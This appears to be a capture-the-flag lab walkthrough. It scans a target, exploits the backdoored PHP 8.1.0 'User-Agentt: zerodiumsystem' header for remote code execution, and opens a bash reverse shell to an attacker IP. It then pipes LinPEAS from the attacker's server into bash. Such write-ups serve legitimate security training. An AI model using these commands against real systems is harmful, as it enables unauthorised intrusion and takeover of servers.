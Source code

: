 

We start with `nmap`:

```
nmap -sV -sC {ip address}
```
There are two ports open 80 and 22

We enumerate the directories with ffuf:

```
ffuf -u http://10.10.10.242/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

We find the version of php by using `curl`

```
curl -I http://10.10.10.242/index.php
```

We learn that the web-server is `php 8.1.0`

If we pass a header value of `User-Agentt: zerodiumsystem("cmd")`, it should execute on the web-server.

We set up a web-server to listen:

```
sudo python3 -m http.server 80
```

To confirm our header code works we send, and wait for a 200 response on the web-server:

```
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl 10.10.14.177");'
```

Set up netcat listener:

```
nc -nlvp 1234
```

Run the reverse shell:

```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

This gives us a shell for user James, we need to escalate privileges to root. To do this we download LinPEAS to our local via wget, then curl our local web-server to get the LinPEAS.

```
Local$ wget wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/linpeas.sh

Local$ sudo python3 -m http.server 80

Attack$ curl 10.10.14.177/linpeas.sh|bash
```

The attack command will download the linpeas script on the attacking box and let us know what privilege escalation vulnerabilities are on the box.

